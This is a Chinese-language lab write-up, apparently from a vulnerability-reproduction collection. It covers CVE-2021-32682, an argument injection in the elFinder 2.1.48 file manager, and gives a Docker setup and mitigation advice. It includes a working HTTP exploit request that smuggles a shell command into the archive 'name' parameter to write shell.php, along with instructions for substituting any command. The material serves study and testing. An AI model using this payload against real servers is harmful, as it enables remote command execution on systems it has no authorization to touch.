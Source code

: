 # elFinder ZIP 参数与任意命令注入 （CVE-2021-32682）

elFinder是一个基于PHP、Jquery的开源文件管理系统。

在elFinder 2.1.48及以前的版本中，存在一处参数注入漏洞。攻击者可以利用这个漏洞在目标服务器上执行任意命令，即使是最小化安装的elFinder。

这个漏洞的原因除了参数注入外，还有默认情况下的未授权访问，因此我们可以对elFinder增加权限校验，避免任意用户操作服务器上的文件，进而避免被执行任意命令。当然，升级版本到2.1.49及以上也是必要的。

参考链接：

- <https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities>
- <https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt>
- <https://xz.aliyun.com/t/10739>

## 漏洞环境

执行如下命令启动一个elFinder 2.1.48版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到elFinder的文件管理页面。

## 漏洞复现

复现这个漏洞首先需要用elFinder提供的功能，创建两个文件。

先创建一个普通的文本文件`1.txt`：

![](1.png)

然后右键这个文件，对其进行打包，打包后的文件命名为`2.zip`：

![](2.png)

最后我们获得`1.txt`和`2.zip`两个文件：

![](3.png)

然后，发送如下数据包来执行任意命令：

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close


```

这个数据包中，你可以看到三个重要的参数：

- `name`， 值为`-TvTT=id>shell.php # a.zip`，你可以修改`id>shell.php`为任意你想执行的命令
- `targets[0]`， 值为`l1_MS50eHQ`，`l1`意思是第一个文件系统（默认值，不用修改），`MS50eHQ`是`1.txt`的base64编码
- `targets[1]`， 值为`l1_Mi56aXA`，`l1`意思是第一个文件系统（默认值，不用修改），`Mi56aXA`是`2.zip`的base64编码

虽然这个数据包发送后会返回错误信息，但实际上其中指定的命令已经被成功执行，可以访问`http://your-ip:8080/files/shell.php`查看执行的结果：

![](4.png)
